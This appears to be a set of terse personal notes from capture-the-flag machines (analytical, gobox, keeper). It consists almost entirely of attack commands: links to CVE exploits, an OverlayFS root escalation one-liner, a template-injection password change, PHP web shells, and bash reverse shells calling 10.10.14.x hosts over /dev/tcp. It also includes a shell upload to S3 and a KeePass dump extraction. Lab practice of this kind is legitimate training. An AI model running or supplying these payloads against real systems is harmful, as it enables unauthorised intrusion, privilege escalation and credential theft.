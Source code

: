 data.analytical.htb
https://github.com/securezeron/CVE-2023-38646
linpeas
env == shows the variables
cat /etc/os-release
 CVE-2021-3493
Ubuntu OverlayFS Local Privesc
https://github.com/briskets/CVE-2021-3493
gcc exploit.c -o exploit  == compiled it using GCC

Alternate:
to see if I get the uid that means the OS is vulnerable:
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'

To exploit:
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod u+s /bin/bash")'

/bin/bash -p




=================================================================================
gobox


{{.}}
{{.DebugCmd "echo 'username:mm' | sudo chpasswd"}}

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.18/8008 0>&1'"); ?>

sudo apt install network-manager-l2tp  

aws config  
aws s3 cp sh.php s3://website/sh.php --endpoint-url=http://10.10.11.113:80  

exports/top_players_6829ur6n.php
echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>'|base64
<%3fphp+system($_GET['cmd'])+%3f>
GET /shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.18/8008+0>%261' HTTP/1.1
http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

script /dev/null -c bash

curl http://127.0.0.1:8000?ippsec.run[id]
curl http://127.0.0.1:8000?ippsec.run[cp%20%2fbin%2fbash%20%2ftmp] == cp /bin/bash /tmp
/tmp/bash -p


=================================================================================
keeper

scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip /home/kali == download file from remote sever to my /home/klai

python3 poc.py -d KeePassDumpFull.dmp

